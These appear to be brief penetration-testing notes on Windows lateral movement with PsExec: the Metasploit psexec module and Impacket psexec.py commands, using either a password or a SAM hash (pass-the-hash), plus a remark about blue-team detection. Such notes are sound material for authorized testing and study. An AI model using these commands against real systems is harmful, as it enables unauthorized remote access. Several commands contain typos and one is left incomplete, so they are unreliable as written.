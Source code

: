 If we have a password:
Metasploit:
`use explot/windows/smb/psexec`
note: gets picked up a lot by blue team

use psexec.py
`psexec.py <domain>/<user>:'<passeord'@<IP_ADDRESS>`

If we have a SAM hash:
Metasploit:
`use exploit/`

use psexec.py:
`psexec.py <user>@<IP_ADDRESS> -hashes <HASH>`

Note: shells on a PC aren't that great
